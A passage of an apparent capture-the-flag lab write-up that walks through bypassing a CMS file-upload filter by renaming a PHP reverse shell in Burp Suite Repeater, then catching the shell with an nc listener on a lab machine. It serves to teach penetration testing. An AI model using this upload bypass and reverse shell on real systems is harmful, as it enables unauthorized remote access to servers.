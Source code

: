 ### Uploading a php
Intead of the PHP shell code given to us, we will be using the `/usr/share/webshells/php/php-reverse-shell.php`.

![9](https://github.com/Kunull/Write-ups/assets/110326359/13c53dc9-a0c1-4f8b-9677-e428766f756d)

Once we have saved the code to `image.php.jpg`, we can upload the file through the CMS dashboard.

While uploading the file, we have to proxy the traffic through Burpsuite.

![4](https://github.com/Kunull/Write-ups/assets/110326359/4d0e241b-67df-4c90-9533-ff30ebc8ba03)

The request must be logged in the `Proxy > HTTP history`.

![5](https://github.com/Kunull/Write-ups/assets/110326359/f6c2e3ce-e892-4e60-9df2-f3194c3afdff)

Next, we have to forward the request to the `Repeater`.

![6](https://github.com/Kunull/Write-ups/assets/110326359/1c505d79-0443-403b-820f-5a1d79b3d2b0)

Once in the `Repeater`, we can change the file name to `revshell.php` and forward the request.

Now, there should be two files visible on the dashboard: `image.php.jpg` and `revshell.php`.

![7](https://github.com/Kunull/Write-ups/assets/110326359/7792cb8a-02e7-4ad0-a53e-6e6155f2ef04)

If we look at the `SITE > Link`, we can see where the `revshell.php` file is located.

### Gaining a reverse shell

Let's use `nc` to set up listener.

```
$ nc -nlvp 9999                         
listening on [any] 9999 ...
```

Now we can visit the `revshell.php` file through the browser.

![10](https://github.com/Kunull/Write-ups/assets/110326359/444d3da7-3980-4e07-be0a-9655e2254573)

Let's check back on the listener.

```
$ nc -nlvp 9999                         
listening on [any] 9999 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.222.76] 59092
Linux photographer 4.15.0-115-generic #116~16.04.1-Ubuntu SMP Wed Aug 26 17:36:48 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:53:13 up  1:54,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

